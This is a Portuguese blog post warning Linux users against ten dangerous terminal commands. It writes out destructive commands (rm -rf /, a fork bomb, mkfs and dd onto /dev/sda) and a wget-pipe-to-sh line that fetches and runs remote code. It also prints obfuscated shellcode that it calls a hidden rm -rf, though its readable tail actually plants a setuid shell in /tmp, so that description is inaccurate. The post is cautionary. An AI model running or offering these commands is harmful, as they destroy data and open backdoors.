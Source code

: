 ```yaml
---
layout: post
title: "10 comandos perigosos que você nunca deve executar no GNU/Linux"
date: '2015-06-06T09:49:00.001-07:00'
image: '/assets/img/linux/forkbomb.png'
description: "A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso."
main-class: 'linux'
tags:
- Linux
- GNU
- Terminal
- Comandos
introduction: "A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso."
---
```


![Fork Bomb](/assets/img/linux/forkbomb.png)

A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso, principalmente se tratando do usuário root, ou do usuário que pode assumir a maioria dos seus privilégios, o sudo. É necessário saber exatamente o que está fazendo. Esse artigo serve para alertá-los sobre alguns comandos do terminal, para não executá-los.


# 1. rm -rf

O comando rm -rf é um dos maneira mais rápida de eliminar uma pasta e seu conteúdo. Mas um pouco de erro de digitação ou ignorância pode resultar em danos no sistema irrecuperáveis. Algumas das opções usadas com o comando rm é: 

{% highlight bash %}
rm -rf
{% endhighlight %}

comando rm no Linux é usado para apagar arquivos.

* rm -r comando exclui a pasta de forma recursiva, mesmo a pasta vazia.
* comando rm -f remove "apenas ler o arquivo 'sem perguntar.
* rm-rf / : Força eliminação de tudo no diretório raiz.
* rm -rf * : Força eliminação de tudo no atual diretório diretório / trabalho.
* rm -rf : Força supressão do atual diretórios e subdiretórios.

Por isso, tenha cuidado quando você está executando o comando rm -rf. Para evitar um acidente de excluir arquivos com o comando 'rm', crie um alias de comando 'rm' como 'rm -i' ".bashrc", ele irá pedir-lhe para confirmar cada exclusão.

# 2. :(){:|:&};:

{% highlight bash %}
:(){:|:&};:
{% endhighlight %}

A descrição acima é o fork bomb. Ele opera através da definição de uma função chamada ':', que se chama duas vezes, uma no primeiro plano e uma vez no fundo. Ele mantém em execução novamente e novamente até que o sistema congela.


# 3. comando > /dev/sda

O comando acima escreve a saída do 'comando' no bloco /dev/sda. O comando acima escreve dados brutos e todos os arquivos no bloco serão substituídos por dados brutos, resultando em perda total dos dados no bloco.


# 4. mv diretorio /dev/null

Tudo movido para /dev/null, desaparece do sistema.

{% highlight bash %}
mv /home/user/* /dev/null
{% endhighlight %}

# 5. wget http://malicious_source -O- | sh

O comando acima irá baixar um script a partir de uma fonte mal-intencionada e, em seguida, executá-lo. Comando wget irá baixar o script e sh irá executar o script baixado.

> Nota: Você deve ser muito consciente da fonte de onde você está baixando pacotes e scripts. Só use esses scripts/aplicações que é baixado de uma fonte confiável.

# 6. mkfs.ext3 /dev/sda

{% highlight bash %}
mkfs.ext3 /dev/sda
{% endhighlight %}

O comando acima irá danificar os blocos do seu HD, e formatá-lo.

# 7. > arquivo

{% highlight bash %}
echo "Nada" > arquivo.conf
{% endhighlight %}

Qual arquivo importante do sistema, será substituído com esse redirecionador.

A forma exata de usá-lo é criar um arquivo backup:

{% highlight bash %}
cp arquivo arquivo.bkp
{% endhighlight %}

e redirecionar com 2 "maiores que", >> , se necessário, exemplo para um source.list:

{% highlight bash %}
echo "link pacote deb" >> /etc/apt/source.list
{% endhighlight %}


# 8. ^foo^bar

Este comando é usado para editar o comando anterior sem a necessidade de digitar novamente todo o comando novamente. Mas isso realmente pode ser problemático se você não tomou o risco de verificar cuidadosamente a mudança no comando original usando ^ ^ foo comando bar.


# 9. dd if=/dev/random of=/dev/sda

{% highlight bash %}
dd if=/dev/random of=/dev/sda
{% endhighlight %}

O comando acima irá acabar com como */dev/sda* e escrever dados aleatórios para o bloco. Claro! Seu sistema seria deixado na fase inconsistente e irrecuperável.


# 10. Comando invisível

O comando abaixo nada mais é que o primeiro comando deste artigo (rm-rf). Aqui os códigos estão escondidos em hex para que um usuário ignorante pode ser enganado. Executando o código abaixo em seu terminal e limpar sua partição raiz.

Este comando aqui mostra que a ameaça pode ser escondida e normalmente não detectável, às vezes. Você deve estar ciente de que você está fazendo e qual seria o resultado. Não compilar/rodar códigos a partir de uma fonte desconhecida.


{% highlight bash %}
 char esp[] __attribute__ ((section(“.text”))) /* e.s.p
 release */
 = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
 “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
 “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
 “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
 “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
 “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
 “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
 “cp -p /bin/sh /tmp/.beyond; chmod 4755
 /tmp/.beyond;”;
{% endhighlight %}

Veja um vídeo bem legal onde resume os 5 mais perigosos
<iframe src="https://www.youtube.com/embed/-mDqHdIOjJM" width="640" height="360" frameborder="0" allowfullscreen></iframe>

## NÃO EXECUTE NENHUM COMANDO ACIMA, CASO QUEIRA TESTÁ-LOS, UTILIZE UM A MÁQUINA VIRTUAL PARA TESTES

<sub>Via: http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/</sub>
